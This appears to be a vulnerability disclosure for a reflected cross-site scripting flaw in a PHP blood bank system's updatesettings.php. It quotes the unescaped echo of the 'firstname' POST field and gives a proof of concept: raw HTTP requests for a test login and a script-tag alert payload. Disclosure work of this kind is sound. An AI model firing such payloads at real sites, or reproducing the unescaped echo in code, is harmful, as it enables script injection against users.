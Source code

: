 # blood-bank-system-in-php has Cross Site Scripting vulnerability in /controllers/updatesettings.php

## supplier 
https://code-projects.org/blood-bank-system-in-php-with-source-code

## Vulnerability file

/controllers/updatesettings.php

## describe

The /controllers/updatesettings. php file in this system retrieves the parameter 'firstname' and echo it, creating a cross site scripting vulnerability

**Code analysis**    

echo firstname value in no filter in /controllers/updatesettings.php

```
echo $_POST['firstname'];
```

![image-20241129001254081](https://github.com/user-attachments/assets/ffc7d21b-107c-47a3-b2e6-51a0e9da20d8)

## POC

login into the system

```
POST /controllers/logincontrol.php HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/login.php
Cookie: PHPSESSID=3kospkmbqtu3riei9610culh61
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=ahmed&password=12345
```

Trigger cross site scripting vulnerability to execute alert statement

```
POST /controllers/updatesettings.php/ HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/controllers/updatesettings.php/
Cookie: PHPSESSID=3kospkmbqtu3riei9610culh61
Upgrade-Insecure-Requests: 1
Priority: u=0, i

firstname=%3Cscript%3Ealert%281111111%29%3B%3C%2Fscript%3E
```

**Result**

![image-20241129001232943](https://github.com/user-attachments/assets/eff8d0c0-3be7-43c1-85c8-4d1e17c7b546)